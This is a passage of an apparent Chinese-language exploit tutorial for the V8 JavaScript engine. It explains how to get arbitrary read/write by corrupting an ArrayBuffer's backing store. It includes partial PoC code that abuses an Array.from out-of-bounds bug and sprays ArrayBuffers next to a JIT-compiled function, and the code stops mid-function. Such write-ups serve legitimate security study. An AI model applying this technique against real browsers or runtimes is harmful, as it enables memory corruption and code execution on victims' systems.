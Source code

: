 我们现在拥有的能力是读到`Code`字段的值，但是我们需要读`Code+0x5F`的值，那么如何构造任意读和任意写的原语呢？

这里要提到另一种数组TypedArray，比如uint8Array，uint32Array之类的，它有一个`ArrayBuffer`字段，这种数组的真实数据存储在`ArrayBuffer`字段指向的`Backing Store`字段指向的内存

![IMAGE](/assets/resources/A3F2D443428D4E57BAFA840DFF68097D.jpg)

我们如果可以修改掉ArrayBuffer的`Backing Store`，那么我们对ArrayBuffer的操作，就可以变成对任意有权限读写的地址的操作

如下修改Poc，我们在迭代结束后，在内存里加入一百个ArrayBuffer对象，然后对后面的内存进行暴搜，标志位是长度`0x1234`，然后我们将长度位改为`0x1212`用于标记是哪个ArrayBuffer被修改
```
function func_to_overwrite() {
    let sum = 0;
    for (let i = 0;i < 0x100; i++) {
        sum += i;
    }
    return sum;
}

for (let i = 0; i < 1000; i++) {
    func_to_overwrite();
}

console.log("======> func_to_overwrite");
%DebugPrint(func_to_overwrite);

let maxSize = 1024 * 8;
let bufs = [];
let objs = [];
let oobArray = [1.1];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        next() {
            let result = this.counter++;
            if (this.counter == maxSize) {
                oobArray.length = 5;
                for (let i = 0; i < 100; i++) {
                    bufs.push(new ArrayBuffer(0x1234));
                    let obj = {'a': 0x4321, 'b': func_to_overwrite};
```